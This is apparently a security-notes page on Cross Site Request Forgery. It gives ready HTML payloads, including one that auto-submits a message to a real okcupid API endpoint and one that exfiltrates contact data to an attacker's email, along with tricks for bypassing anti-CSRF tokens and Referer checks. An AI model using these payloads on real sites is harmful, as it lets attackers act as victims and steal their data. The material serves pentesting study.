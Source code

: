 ```yaml
---
description: Making a request on the user's behalf.
---
```


# Cross Site Request Forgery (CSRF)

## Overview

If a website automatically sends a user's credentials when you interact with it (cookies are sent automatically), then CSRF can be used to impersonate the user (assuming the website doesn't do anything to prevent it).

## Common CSRF Payloads

Different types of endpoints require different techniques:

* POST
* GET
* DELETE/UPDATE
* JSON endpoint
* XML endpoint

### POST

Make a POST form with hidden inputs and use JavaScript to send the POST request automatically when the user navigates to the page.

### GET

Make an image with zero width and length and `src=`t`he_csrf_Link`. The GET request is made automatically when the browser tries to load the image.

### PUT/DELETE

This one is very difficult. Can only be accomplished with like browser plugins/plugin vulns and stuff.

### JSON

You can try to do a CSRF request to a JSON API endpoint.

[https://blog.azuki.vip/csrf/](https://blog.azuki.vip/csrf/)\


**Caveats** (as of august 2021):

* The server must not require **content-type: application/json** in the headers. The method results in a request with a **content-type: text/plain**  header
* This method results in one of the fields in the JSON request being `"foo":"="`. In other words, the server must not deny the request because of an **unexpected field**, or an **expected field with the value** `=`
* The SameSite cookie attribute must not be Strict
  * It defaults to **Lax** on browsers
  * In Firefox, it always works when SameSite has not been set
    * Haven’t tested when SameSite has been explicitly set to Lax
  * In Chrome, it works when SameSite has not been set
    * But only for **two minutes**, starting from the time the cookie was assigned to the user
    * Probably won’t work if SameSite has been explicitly set to Lax





Sample payload from the article. Sends a JSON request to the okcupid API:

```
<html>  
 <body>  
   <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain"\>  
     <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop\_global", "service":"other"}'\>  
     <input type="submit" value="Click me"\>  
   </form>  
   <script>  
     window.onload = () => {form.submit()}  
   </script>  
 </body>  
</html>
```

Zseano also talked about it in his [blog article](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html). Here's his payload (but his is **older**):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="{"params":{"limit":20,"and":false,"filters":[],"excluded_contacts":[]},"fields":["First Name","Last Name","Email Address","Title","Notes","Organization","Street","City","State","Tags","Zip Code","Phone Number","Gender","Event ID","Event Title","VIP","Twitter Handle","Twitter URL","Twitter Followers","Twitter Following","Facebook Name","Facebook URL","Facebook Friends","Instagram Handle","Instagram URL","Instagram Followers","Instagram Following","Website","Date Added","Unsubscribed"],"recipient":"myemail+2" value='@gmail.com'>
         <input type="submit" value="submit"> </form>
     </body>
  </html>
  
```

### XML

From Zseano's [blog](https://web.archive.org/web/20190523101945/https://zseano.com/tutorials/5.html):

```
<html>
     <body>
        <form ENCTYPE="text/plain" action="http://vulnsite.com/snip/snippet.php" method="post"> 
        <input type="hidden" name="<foo> <html xmlns:html='http://www.w3.org/1999/xhtml'> <html:script>alert(1);</html:script> </html> </foo>">
         <input type="submit" value="submit"> </form>
     </body>
  </html>
```

## Login CSRF

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#login-csrf" %}

Many developers tend to ignore CSRF vulnerabilities on login forms. They assume that CSRF would not be applicable on login forms because the user is not authenticated at that stage. However, CSRF vulnerabilities can still occur on login forms where the user is not authenticated, but the impact and risk is different.

For example, if an attacker uses CSRF to authenticate a victim on a shopping website using the attacker's account, and the victim then enters their credit card information, an attacker may be able to purchase items using the victim's stored card details

## Mitigations

OWASP Prevention Cheat Sheet

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html" %}

## Mitigation Bypasses

#### CSRF Tokens

If an anti-CSRF token is added, you can bypass it with:

* XSS
* Steal the CSRF token (using CSS injection, for example)
* Clickjacking
  * If you can fill in the data you want for them, and then clickjack them into hitting “submit” (through an iframe), then you can make a request on their behalf
* CSRF token misconfigurations
  * Try a blank csrf token
  * Try to see if accounts can share the same CSRF token. Make 2 accounts and see if the same token works for both.
  * Change one character in the token, maybe it only checks length or something.

#### Referrer Header Checking



If the Referrer header is checked, then you can try a few things: &#x20;

1. If `site.com/csrf` checks that "site.com" is in the string, you can send the query from `malicious.com/site.com` or `site.com.malicious.com` .
2. Send a blank referrer header and see if that works
3. Use XSS (like reflected XSS) to achieve the goal.





